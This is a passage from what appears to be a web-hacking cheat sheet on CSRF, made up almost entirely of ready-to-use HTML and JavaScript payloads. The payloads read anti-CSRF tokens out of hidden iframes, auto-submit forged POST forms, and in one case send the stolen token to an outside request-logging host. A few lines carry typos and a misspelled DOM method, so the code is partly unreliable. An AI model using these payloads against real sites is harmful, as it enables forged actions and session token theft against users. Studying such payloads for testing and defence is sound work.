 ```markup
<form id="form1" action="http://google.com?param=VALUE" method="post" enctype="multipart/form-data">
<input type="text" name="username" value="AA">
<input type="checkbox" name="status" checked="checked">
<input id="token" type="hidden" name="token" value="" />
</form>

<script type="text/javascript">
function f1(){
    x1=document.getElementById("i1");
    x1d=(x1.contentWindow||x1.contentDocument);
    t=x1d.document.getElementById("token").value;
    
    document.getElementById("token").value=t;
    document.getElementById("form1").submit();
}
</script> 
<iframe id="i1" style="display:none" src="http://google.com?param=VALUE" onload="javascript:f1();"></iframe>
```

#### **Steal CSRF Token and sen a POST request using an iframe and a form**

```markup
<iframe id="iframe" src="http://google.com?param=VALUE" width="500" height="500" onload="read()"></iframe>

<script> 
function read()
{
    var name = 'admin2';
    var token = document.getElementById("iframe").contentDocument.forms[0].token.value;
    document.writeln('<form width="0" height="0" method="post" action="http://www.yoursebsite.com/check.php"  enctype="multipart/form-data">');
    document.writeln('<input id="username" type="text" name="username" value="' + name + '" /><br />');
    document.writeln('<input id="token" type="hidden" name="token" value="' + token + '" />');
    document.writeln('<input type="submit" name="submit" value="Submit" /><br/>');
    document.writeln('</form>');
    document.forms[0].submit.click();
}
</script>
```

#### **Steal token and send it using 2 iframes**

```markup
<script>
var token;
function readframe1(){
  token = frame1.document.getElementById("profile").token.value;
  document.getElementById("bypass").token.value = token
  loadframe2();
}
function loadframe2(){
  var test = document.getElementbyId("frame2");
  test.src = "http://requestb.in/1g6asbg1?token="+token;
}
</script>

<iframe id="frame1" name="frame1" src="http://google.com?param=VALUE" onload="readframe1()" 
sandbox="allow-same-origin allow-scripts allow-forms allow-popups allow-top-navigation"
height="600" width="800"></iframe>

```